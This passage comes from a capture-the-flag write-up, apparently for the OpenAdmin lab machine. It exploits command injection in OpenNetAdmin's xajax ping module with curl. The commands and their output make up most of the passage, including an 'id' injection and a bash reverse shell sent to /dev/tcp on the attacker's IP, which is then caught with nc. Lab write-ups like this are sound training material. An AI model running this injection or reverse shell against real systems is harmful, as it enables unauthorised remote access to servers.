 I can test it out with just curl. One lesson I learned is that it is important to have the trailing `/` at the end of the url:

```

root@kali# curl -s -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;id&xajaxargs[]=ping"  http://10.10.10.171/ona/
...[snip]...
<!-- Module Output -->
<table style="background-color: #F2F2F2; padding-left: 25px; padding-right: 25px;" width="100%" cellspacing="0" border="0" cellpadding="0">
    <tr>
        <td align="left" class="padding">
            <br>
            <div style="border: solid 2px #000000; background-color: #FFFFFF; width: 650px; height: 350px; overflow: auto;resize: both;">
                <pre style="padding: 4px;font-family: monospace;">uid=33(www-data) gid=33(www-data) groups=33(www-data)
</pre>
            </div>
        </td>
    </tr>
</table>

...[snip]...

```

I can see the output of `id` at the end of the `Module Output` section. The exploit from the site just adds an `echo` before and after the command the user runs and then uses `sed` to cut out the command output and ignore the rest. I could do this myself, but I’ll just get a reverse shell and leave that as an exercise for the motivated reader.

### Shell

Since I want a legit shell, I’ll use curl to push a `bash` reverse shell:

```

root@kali# curl -s -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;bash -c 'bash -i >%26 /dev/tcp/10.10.14.11/443 0>%261'&xajaxargs[]=ping"  http
://10.10.10.171/ona/

```

It hangs, but in my `nc` listener, I’ve got a shell:

```

root@kali# nc -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.171.
Ncat: Connection from 10.10.10.171:40352.
bash: cannot set terminal process group (1004): Inappropriate ioctl for device
bash: no job control in this shell
www-data@openadmin:/opt/ona/www$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```
